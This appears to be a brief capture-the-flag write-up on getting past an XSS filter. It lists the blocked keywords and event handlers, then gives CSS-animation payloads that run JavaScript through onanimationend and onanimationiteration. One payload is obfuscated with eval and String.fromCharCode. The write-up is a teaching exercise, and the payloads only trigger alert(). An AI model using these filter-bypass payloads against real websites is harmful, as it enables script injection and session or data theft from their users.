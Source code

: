 1. word "Hello"
2. script
3. onerror
4. onsubmit
5. onload
6. onmouseover
7. onfocus
8. onmouseout
9. onkeypress
10. onchange

We can get payloads from here. https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

## POC

`<style>@keyframes x{}</style><xss style="animation-name:x" onanimationend="alert(1)"></xss>`

# Payload

`<style>@keyframes x{}</style><xss style="animation-name:x" onanimationend="eval(String.fromCharCode(97,108,101,114,116,40,39,72,101,108,108,111,39,41))"></xss>`

Worked but no flag.

`<style>@keyframes slidein {}</style><xss style="animation-duration:1s;animation-name:slidein;animation-iteration-count:2" onanimationiteration="alert('Hello')"></xss>`

And we got the flag!!!